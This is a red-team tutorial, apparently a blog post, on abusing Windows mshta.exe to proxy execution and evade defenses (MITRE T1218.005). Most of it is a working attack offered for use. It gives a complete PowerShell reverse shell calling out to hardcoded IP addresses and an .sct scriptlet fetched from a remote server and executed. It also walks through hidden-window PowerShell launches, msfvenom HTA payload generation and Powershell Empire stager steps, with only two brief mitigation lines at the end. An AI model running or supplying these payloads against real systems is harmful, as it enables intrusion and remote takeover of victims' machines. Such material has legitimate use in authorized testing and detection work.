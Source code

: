 ```yaml
---
title: MSHTA
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: [redteam,defense-evasion, windows, mitre, mshta]     # TAG names should always be lowercase
---
```


# MITRE
- ID : `T1218.005`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# MSHTA
***Mshta.exe*** is a utility that executes Microsoft HTML Applications (HTA) files. Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. Mshta.exe can be used to bypass application control solutions that do not account for its potential use.

# Exploitations

## Command Prompt

### Invoking Calculator

Command
> `mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""[command]"":close")`

***Execute the below commmand to invoke calculator***
```batch
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""calc.exe"":close")

```
*invoking calculator*
![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/mshvbacalc.png)

### Getting Reverse Shell With Vbscript via Mshta
To get a reverse shell, copy the below powershell script to your .ps1 file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, then execute the below command to get a reverse shell.

*reverse shell in powershell*
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.42.0.1',5000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Command
> `mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -w Hidden -file [path/to/your/file.ps1]"":close")`

*Executing rev.ps1 to get a reverse shell via mshta*
```batch
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -w Hidden -file rev.ps1"":close")

```
![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/mshvbsrev.png)

***Getting reversh shell***
![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/kalimshtarev.png)

### Getting Reverse Shell With Javascript via Mshta
To get a reverse shell, copy the below script to your .sct file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, host .sct file on your server i.e `python3 -m http.server [port]` then execute the below command to get a reverse shell.

*content of exploit.sct*
```javascript

<?XML version="1.0"?>
<scriptlet>
  <!-- Reverse Shell -->

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

	function Exec()
	{
		var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'170.170.6.136\',5000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');
	}

]]>
</script>

</scriptlet>

```

Command

> `mshta.exe javascript:a=(GetObject('script:http://your_url/file.sct')).Exec();close();`

*executing mshta to get reverse shell*
```bash
mshta.exe javascript:a=(GetObject('script:http://170.170.6.136:90/exploit.sct')).Exec();close();

```
![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdjswin.png)

*getting reversh shell*

![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdjsmshta.png)

## Metasploit 

### Generating .hta Exploit With Msfvenom

> `msfvenom -p windows/meterpreter/reverse_tcp lhost=[ip] lport=[port] -f hta-psh -o [file_name.hta]`

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.43.1 lport=5000 -f hta-psh -o exploit.hta
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7368 bytes
Saved as: exploit.hta
```

### Getting Command Shell 

*executing mshta in windows*

> `mshta [http://host/malicioushta.hta]`

![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/metawin.png)

*setting metasploit listener, getting reverse shell*

![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/metasploitmshta.png)


## Powershell Empire

Use `uselistener` to setup your listener, with the listener setup, use `usestager windows/hta` to generate your payload, host your payload on your server, then execute the following command on target system `mshta [http://your_host/your_file.hta]`

### Setting Listener

![empirelistener](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empirelistener.png)

### Using windows/hta Stager

![empirestager](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empirestager.png)

### Getting Reverse Shell

![empireshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empireshell.png)

# Mitigations

- Disable or Remove Mshta.exe.
- Block execution of mshta.exe.

# References

- [https://attack.mitre.org/techniques/T1218/005/](https://attack.mitre.org/techniques/T1218/005/)
- [https://docs.microsoft.com/en-us/previous-versions//ms536471(v=vs.85)?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/previous-versions//ms536471(v=vs.85)?redirectedfrom=MSDN)
- [https://atomicredteam.io/defense-evasion/T1218.005/](https://atomicredteam.io/defense-evasion/T1218.005/)
- [https://attack.mitre.org/techniques/T1218/005/](https://attack.mitre.org/techniques/T1218/005/)
- [https://attack.mitre.org/mitigations/M1038/](https://attack.mitre.org/mitigations/M1038/)
